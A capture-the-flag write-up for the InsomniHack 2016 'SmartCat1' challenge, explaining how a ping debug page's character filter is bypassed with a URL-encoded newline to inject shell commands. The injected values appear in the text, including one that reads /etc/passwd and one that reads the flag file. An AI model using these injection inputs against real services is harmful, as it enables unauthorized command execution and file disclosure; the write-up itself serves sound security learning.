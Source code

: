 __InsomniHack CTF :: SmartCat1__
================


_Caleb Stewart_ | _Sunday, January 17, 2016_ 


> Damn it, that stupid smart cat litter is broken again
> Now only the debug interface is available [`here`][smartcat]  and this stupid thing only permits one ping to be sent!
> I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me !
> FYI No need to bruteforce anything there. If you do you'll be banned permanently


----------

![Smart Cat](../canihaz.jpg)

To start things off, we recognzied that the server was most likely appending whatever we typed to some ping command. With this in mind we started tring strings such as "localhost; ls", to see if we could get access to raw shell commands. We immediately saw that the server was checking for a list of special characters, and blocking offending input. We started trying all special characters, and ended up with this list: "&$`()|{} ". You'll notice that this is basically every useful special character known to man, except a few.

We noticed that the less than and greater than symbols weren't blocked, which are redirect symbols in bash. Therefore, we could redirect the output of ping to files in /tmp (where we had write permission), with strings like "localhost>/tmp/useless". This wasn't very helpful but was interest. We could also redirect files into ping, but ping doesn't read anything from standard input so this was also useless.

At this point, proceeded to bang our heads against the wall for a couple hours. In our mad scramble for answers, we found some "hints" in the HTTP headers of the page. They hints embedded in the "x-powered-by" HTTP header and were a random selection of the following:

```
solve_me_already
format-me-i-im-famous
mod_cassette_is_back/0.1
dirbuster.will.not.help.you
```

These hints weren't incredibly helpful. Obviously, "solve_me_already" was just mocking us. "format-me-i-im-famous" we thought was promising but could not find any useful formatting related exploits. "mod_cassette_is_back/0.1" led us to Haskell library. We then researched Haskell and its horrible syntax for around an hour to no end. In the end, the so called "hints" simply lead us in the wrong direction.

Out of dispair, we revisited the basic input box and restricted characters. While throwing things at the server, we realized we had never tried the new line character to separate commands. This allowed us to execute something after the ping by entering something like `localhost%0Als`. With that, we recieved a directory listing:

```
index.cgi
there
```

We were still restricted by the character filtering, therefore no parameters. We figured out we could read a file by called `cat` and redirecting a file to its standard input (`%0Acat</etc/passwd`). From here we still needed a filename, and we couldn't pass a parameter to ls. We decided to run `find`, which gave us a nice file tree from the current directory:

```
.
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
```

We now had the file name, and we simply had to redirect that file into cat to grab the flag:

```
%0Acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
```

And with that, we had the flag.

[smartcat]: http://smartcat.insomnihack.ch/cgi-bin/index.cgi